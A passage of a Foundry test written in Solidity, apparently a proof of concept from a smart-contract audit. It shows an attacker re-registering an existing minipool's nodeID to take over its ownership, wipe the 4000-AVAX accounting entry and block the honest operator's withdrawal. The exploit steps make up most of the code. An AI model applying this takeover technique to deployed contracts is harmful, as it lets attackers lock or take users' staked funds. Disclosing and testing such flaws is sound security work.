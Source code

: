 ```
		vm.stopPrank();

		// step 3 - rialto claims and initiates staking & records staking start
		vm.startPrank(address(rialto));
		minipoolMgr.claimAndInitiateStaking(mp1.nodeID);
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);

		// step 4 - skip 2 weeks to complete duration of pool
		skip(2 weeks);

		// step 5 - rialto records staking end
		// for simplicity, I assume rewards = 0 (slash)
		minipoolMgr.recordStakingEnd{value: 8000 ether}(mp1.nodeID, block.timestamp, 0);

		// At this stage, pool is in the `Withdrawable` state as seen by test below
		// Original pool owner can withdraw his 4000 ether by calling `withdrawMinipoolFunds`
		MinipoolManager.Minipool memory mp1Updated = minipoolMgr.getMinipool(minipoolIndx);

		assertEq(mp1Updated.status, uint256(MinipoolStatus.Withdrawable));
		assertEq(mp1Updated.avaxNodeOpAmt, 4000 ether);
		assertEq(mp1Updated.owner, nodeOp);
		vm.stopPrank();
		// step 6 - EXPLOIT

		// Assume an exploiter knows nodeID of current node operator
		// Stake GGP and create a minipool with same nodeId as the existing node operator
		// only this time, msg.sender = exploiter

		vm.startPrank(nodeOpExploiter);
		ggp.approve(address(staking), 200 ether);
		staking.stakeGGP(200 ether);
		assertEq(staking.getGGPStake(nodeOpExploiter), 200 ether);

		minipoolMgr.createMinipool{value: 1000 ether}(mp1.nodeID, 2 weeks, 0.02 ether, 1000 ether);

		MinipoolManager.Minipool memory mp1Exploited = minipoolMgr.getMinipool(minipoolMgr.getIndexOf(mp1.nodeID));

		// THIS POOL IS NOW EXPLOITED..

		// Node ID of this pool is same as nodeID of old pool
		assertEq(mp1Exploited.nodeID, mp1.nodeID);

		// Pool owner is successfully changed to exploiter
		assertEq(mp1Exploited.owner, nodeOpExploiter);

		// Pool was earlier in withdrawable state -> moved back into Prelaunch state
		assertEq(mp1Exploited.status, uint256(MinipoolStatus.Prelaunch));

		// avaxNodeOpAmt is overwritten - earlier 4000 ether accounting entry is gone
		assertEq(mp1Exploited.avaxNodeOpAmt, 1000 ether);

		vm.stopPrank();

		// STEP 7: Honest NodeOP can no longer withdraw his own AVAX
		// function reverts as he no longer owns minipool with NodeID
		vm.startPrank(nodeOp);

		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
		minipoolMgr.withdrawMinipoolFunds(mp1.nodeID);

		vm.stopPrank();
```